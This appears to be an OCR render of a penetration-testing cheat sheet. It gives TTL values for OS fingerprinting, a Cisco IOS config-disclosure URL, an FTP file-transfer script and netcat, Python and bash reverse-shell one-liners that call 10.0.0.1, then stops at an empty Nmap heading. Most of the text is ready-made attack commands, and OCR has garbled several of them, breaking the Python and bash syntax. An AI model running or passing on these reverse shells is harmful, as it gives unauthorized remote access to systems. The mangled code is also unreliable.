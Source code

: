 ## TTL Fingerprinting

```sh
Windows : 128 
Linux : 64 
Network : 255 
Solaris : 255
```

## Cisco IOS 11.2 - 12.2 Vulnerability

```plaintext
http://ip/level/16-99/exec/show/config
```

## FTP Through Non-Interactive Shell

```bash
echo open ip 21 ftp.txt
echo user
echo pass
echo bin
echo GET file=tp.txt echo bfe ftp.txt
ftp -s:ftp.txt
```

## NetCat Listeners

```bash
nc 10.0.0.1 1234 -e /bin/sh Linux reverse shell 
nc 10.0.0.1 1234 -e cmd.exe Windows reverse shell
```

Persistent Ncat listener:

```bash
ncat -lvk 443
```

## Python Reverse Shell

```python
python -c 'import socket,subprocess,os; s=socket.socket(socket..;;F_INET, socket.SOCK_STREAL1); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0); os.dup2(s.fileno(l,1); os.dup2(s.file:oo(),2);
p~subprocess.call( 1"/bin/sh","-i"] I;'
```

## Bash Reverse Shell

```bash
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

## Turn Nmap into a Vulnerability Scanner
